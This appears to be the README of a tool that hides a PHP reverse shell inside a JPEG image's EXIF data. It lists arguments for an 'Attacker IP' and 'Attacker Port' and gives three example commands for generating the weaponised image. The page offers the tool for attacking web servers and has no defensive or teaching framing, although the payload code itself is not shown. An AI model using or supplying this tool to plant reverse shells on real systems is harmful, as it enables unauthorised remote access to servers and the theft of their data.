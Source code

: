 # PHP-Reverse-Shell-Image-Generato

Generate PHP Reverse Shell Image (JPEG)  
  
------------------------------------------------ 
Required Arguments
------------------------------------------------
\-i,  \-\-image        Image File to Convert (Required)  
\-a,  \-\-ipaddr       Attacker IP (Required)  
------------------------------------------------  
Optional Arguments
------------------------------------------------   
\-p,  \-\-port        Attacker Port [default:21]  
\-o,  \-\-outfilename  Use a Different Name to Original Image  
\-h,  \-\-help      Show Help  
------------------------------------------------  

Syntax  
------------------------------------------------------------------------------------------------------------------------------  
python3 PHPReverseShell2ImageExif.py \-\-image="image.jpeg" \-\-ipaddr"127.0.0.1" \-\-port"21" \-\-outfilename"newimage.jpg"  
python3 PHPReverseShell2ImageExif.py \-\-image="image.jpeg" \-\-ipaddr"127.0.0.1" \-\-port"21"  
python3 PHPReverseShell2ImageExif.py \-\-image="image.jpeg" \-\-ipaddr"127.0.0.1"  
------------------------------------------------------------------------------------------------------------------------------  

